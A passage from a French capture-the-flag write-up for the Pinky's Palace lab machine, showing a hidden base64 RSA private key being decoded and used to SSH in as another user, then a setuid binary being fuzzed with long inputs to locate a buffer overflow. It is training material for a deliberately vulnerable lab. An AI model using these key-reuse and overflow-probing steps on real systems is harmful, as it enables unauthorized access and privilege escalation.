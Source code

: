 On récupère la clé privée RSA et hop, on s'en sert pour se connecter au serveur en tant que pinky, et sans mot de passe évidemment !

```console
pinkymanage@pinkys-palace:/var/www/html/littlesecrets-main/ultrasecretadminf1l35$ base64 -d .ultrasecret > ~/Palace.Pin.key
pinkymanage@pinkys-palace:/var/www/html/littlesecrets-main/ultrasecretadminf1l35$ cd ~
pinkymanage@pinkys-palace:~$ chmod 600 Palace.Pin.key

pinkymanage@pinkys-palace:~$ id
uid=1001(pinkymanage) gid=1001(pinkymanage) groups=1001(pinkymanage)

pinkymanage@pinkys-palace:~$ ssh pinky@localhost -p 64666 -i Palace.Pin.key
Linux pinkys-palace 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun May  6 15:48:38 2018 from ::1

pinky@pinkys-palace:~$ id
uid=1000(pinky) gid=1000(pinky) groups=1000(pinky),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
```

## Twinkle, Twinkle, Little Pink

_Nota bene : section à rédiger_

Lecture recommandée et qui m'a été utile pour finir ce CTF :

[Buffer Overflow](https://beta.hackndo.com/buffer-overflow/) par [Pixis](https://twitter.com/intent/user?screen_name=hackanddo) | [Buffer overflow et variable d'environnement](http://www.hacktion.be/fr/10-buffer-overflow-variable-environnement) par [Que20](https://twitter.com/que_20) | 
[Buffer Overflow & gdb](https://www.0x0ff.info/2015/buffer-overflow-gdb-part-2/) par [0x0ff](https://www.0x0ff.info/author/0x0ff/)

```console
pinky@pinkys-palace:~$ ls
adminhelper  note.txt

pinky@pinkys-palace:~$ cat note.txt
Been working on this program to help me when I need to do administrator tasks sudo is just too hard to configure and I can never remember my root password! Sadly I'm fairly new to C so I was working on my printing skills because Im not sure how to implement shell spawning yet :(

pinky@pinkys-palace:~$ file adminhelper
adminhelper: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3f035a0120e92e5c0e569dc8f3f4e813ef41409b, not stripped

--snip--

pinky@pinkys-palace:~$ ./adminhelper \`python -c 'print "A"*71'\`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

pinky@pinkys-palace:~$ ./adminhelper \`python -c 'print "A"*72'\`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Bus error

pinky@pinkys-palace:~$ ./adminhelper \`python -c 'print "A"*73'\`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```